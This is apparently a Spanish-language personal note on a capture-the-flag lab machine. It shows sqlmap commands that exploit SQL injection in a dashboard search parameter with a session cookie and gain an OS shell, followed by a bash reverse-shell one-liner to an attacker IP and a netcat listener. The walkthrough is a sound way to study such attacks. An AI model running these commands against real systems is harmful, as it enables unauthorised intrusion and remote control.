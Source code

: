 # SQLI con [[sqlmap NO USAR]] y mandamos una [[Reverse shell]]

Al poner una ' en la parte de search nos aparece este error

![[Vaccine12.png]]


```
ACLARACION IMPORTANTE: En la parte de cookie, poner el que tenga cada uno, desde la pagina logeado como administrador apretar CTRL + SHIFT + I y ver las cookies
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3        / Primero usar este comando que va a hacer el analisis
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3 --os-shell           /Agregando el parametro de os shell, nos va a dejar ejecutar comandos
bash -c 'bash -i >& /dev/tcp/10.10.16.17/443 0>&1'                 / Este es el comando que vamos a poner para usar la revershell
```
Recordar estar en escucha con [[nc -nlvp 443]] para la [[Reverse shell]]
El cookie seria el value de PHPSESSID


![[Vaccine14.png]]

![[Vaccine13.png]]
